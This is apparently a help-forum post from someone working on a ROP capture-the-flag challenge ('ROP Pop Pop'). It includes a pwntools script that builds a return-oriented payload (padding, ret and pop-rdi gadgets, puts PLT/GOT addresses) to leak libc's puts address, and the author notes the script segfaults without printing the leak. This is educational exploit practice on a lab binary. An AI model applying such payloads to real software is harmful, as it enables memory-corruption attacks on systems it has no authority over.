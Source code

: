 ```
usr/lib/x86_64-linux-gnu/libc.so.6
```


I think I need to call `ret` before I jump to my other stuff to leak the address
```
0x00000000004004a9 : ret
```



Hello,
I'm stuck on part of ROP Pop Pop.
I'm currently attempting to leak the address of puts in the program stack so I can use it to calculate the base address of libc.
Currently my leak script causes the program to segfault after puts returns, which makes sense because my current payload doesn't include an address to jump to when puts returns. However, I'm surprised to see that it doesn't print out anything at all before the error.
Here is the script I'm using to leak the addresses:
```python
def leakPuts():
	binary = context.binary = ELF('./rop', checksec=False)
	# 0x00000000004006b3 : pop rdi ; ret
	popRDI = p64(0x004006b3)
	retGdgt = p64(0x004004a9)
	
	pltPuts = p64(binary.plt.puts)		# Address to call
	gotPuts = p64(binary.got.puts)		# Address to leak


	print(hex(binary.plt.puts))
	print(hex(binary.got.puts))

	p = process()

	pld = cyclic(40)
	pld += retGdgt + popRDI + gotPuts + pltPuts
	return pld
	
def testLeak():
	p = process('/bin/bash')
	p.sendline('gdb ./rop -q')
	p.sendline("break *0x0040064a") # Break at ret in main
	p.recv()
	p.clean(timeout=0.05)
	p.sendline("r")
	p.recvuntil("tools..")
	p.sendline(leakPuts())
	p.interactive()

def localLeak():
	p = process("./rop")
	p.recvuntil("tools..")
	p.sendline(leakPuts())
	#while True:
		#print(cleanLine(p.recvline()))
	p.interactive()
```
